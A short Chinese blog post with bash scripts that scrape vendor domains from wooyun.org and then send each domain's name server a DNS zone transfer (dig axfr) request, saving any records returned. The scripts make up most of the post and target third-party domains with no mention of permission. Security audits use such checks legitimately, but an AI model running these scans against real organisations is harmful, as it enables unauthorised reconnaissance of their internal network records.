 ```yaml
---
layout: post
title: "批量检测域传送漏洞"
description: ""
category: 技术研究
tags: [dns]
---
```

{% include JB/setup %}

参考资料:

http://www.wooyun.org/bugs/wooyun-2010-037727

获取wooyun厂商域名:

	#!/bin/bash

	for ((i=1;i<25;i++))

	do

	    curl http://www.wooyun.org/corps/page/$i|grep nofollow >> wooyun.txt

	done

筛选出域名列表

	sed -e 's#.*//\(.*\)</a.*#\1#' -e 's#www\.\|/##' wooyun.txt | sed 's/\///g' > domain.txt
	

sed -e 参数


测试域传送漏洞

	#!/bin/bash

	while read oneline

	do

	NS=`dig ${oneline} +nssearch|head -1|awk '{printf $2}'` #取DNS服务器

	dig @${NS} ${oneline} axfr  >> dns.txt

	done < wooyun.org.txt  #厂商列表


